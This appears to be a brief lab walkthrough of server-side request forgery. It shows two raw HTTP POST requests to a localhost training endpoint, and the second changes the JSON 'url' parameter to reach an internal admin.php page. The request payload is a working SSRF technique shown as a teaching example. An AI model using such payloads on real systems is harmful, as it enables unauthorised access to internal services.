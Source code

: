 If an application utilizes a mechanism to check for data, if we can make it perform those checks to a point of interest we get SSRF.

By changing
```
POST /labs/api/vendors_0x01.php HTTP/1.1

Host: localhost

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://localhost/labs/s0x01.php

Content-Type: application/json

Content-Length: 61

Origin: http://localhost

Connection: close

Cookie: admin_cookie=5ac5355b84894ede056ab81b324c4675; csrf0x01=jeremy; csrf0x02=jeremy

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin



{"url":"http://localhost/labs/api/thirdparty/checkmeout.php"}
```

To
```
POST /labs/api/vendors_0x01.php HTTP/1.1

Host: localhost

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://localhost/labs/s0x01.php

Content-Type: application/json

Content-Length: 61

Origin: http://localhost

Connection: close

Cookie: admin_cookie=5ac5355b84894ede056ab81b324c4675; csrf0x01=jeremy; csrf0x02=jeremy

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin



{"url":"http://localhost/labs/api/admin.php"}
```

We get access to admin.php, because its' the application making the request, not the user.
